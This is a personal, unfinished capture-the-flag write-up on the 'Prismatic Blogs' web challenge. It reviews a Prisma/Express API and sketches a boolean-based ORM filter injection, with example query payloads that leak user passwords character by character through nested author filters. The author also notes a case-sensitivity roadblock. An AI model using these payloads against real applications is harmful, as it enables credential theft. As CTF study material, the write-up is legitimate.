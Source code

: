 ```yaml
---
date: 2025-01-13
description: ORM boolean-based injection probably?
platform: UofTCTF 2025
categories: Web
tags:
  - code-review
  - prisma
  - orm
duration: unsolved
---
```

# Prismatic Blogs
> Let's look at Prisma, which is a Node.js & TypeScript ORM & toolkit to interact with your database.

## schema.prisma
useful fields user one to many post

User
- name
- password
- posts
Post
- title
- body
- author
- authorId

> This Prisma schema will generate a SQLite database with two tables: `User` and `Post`, with the specified relationships between them. After running `prisma migrate` to apply the schema, you can interact with this data using the Prisma Client in your application.

## package.json
```json
{
  "name": "blog-api",
  "version": "1.0.0",
  "prisma": {
    "seed": "node seed.js"
  },
  "dependencies": {
    "@prisma/client": "^6.1.0", // 6.2.1 latest
    "express": "^4.21.2", // 4.21.2
    "prisma": "^6.1.0"
  }
}
```

> **prisma.seed**: This field specifies a custom script for seeding your database. It indicates that the command `node seed.js` should be run to populate your database with initial data. This is useful when you want to automate data population during development or deployment. The `seed.js` file is typically located in your project root or another folder you specify.

## seed.js
Sets the seed to populate the db. 
- flag initialized
- create 4 users with 4 random passwords 

## Init
```bash
npm install
npx prisma migrate dev --name init

# check if database db initialized with contents 
node index.js
```

boolean-based nosql? 
# Solution ?
> figure we can query author details in the `/api/post` endpoint with a query return post if filter match

boolean-based approach
```sql
/api/post?author[name]=White&author[password][startsWith]=j -- shows post
/api/post?author[name]=White&author[password][startsWith]=w -- fail
```

payloads
```test
author[name][startsWith]=a
author[name]=White
author[password][startsWith]=j

author[name]=White&author[password][startsWith]=j
author[name]=White&author[password][contains]=j
author[name]={user}&author[password]=match
```
> matches the password but the cases are wrong 

Code requirements
- `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789`
- min password is 15-24 start validating when length 
- be able to find a user matching bruteforce every user 

---
# Road block
my plan was to fuzz the input but i learned that matching the password but SQLite prisma does case-insensitive matching that prevents reading the password from fast bruteforce
https://www.prisma.io/docs/orm/prisma-client/queries/case-sensitivity

![[_attachments/Pasted image 20250113033907.png]]

https://www.sqlite.org/faq.html#q18
> **(18) Case-insensitive matching of Unicode characters does not work.**

> The default configuration of SQLite only supports case-insensitive comparisons of ASCII characters. The reason for this is that doing full Unicode case-insensitive comparisons and case conversions requires tables and logic that would nearly double the size of the SQLite library. The SQLite developers reason that any application that needs full Unicode case support probably already has the necessary tables and functions and so SQLite should not take up space to duplicate this ability.


# Notes 
- `req.query` extracts from `author[name]` and can be passed as object
- match tricks in prisma https://www.prisma.io/docs/orm/prisma-client/queries/filtering-and-sorting#filter-on-relations
- sqlite case-insensitive matching `SELECT * FROM User WHERE password LIKE 'J%';`
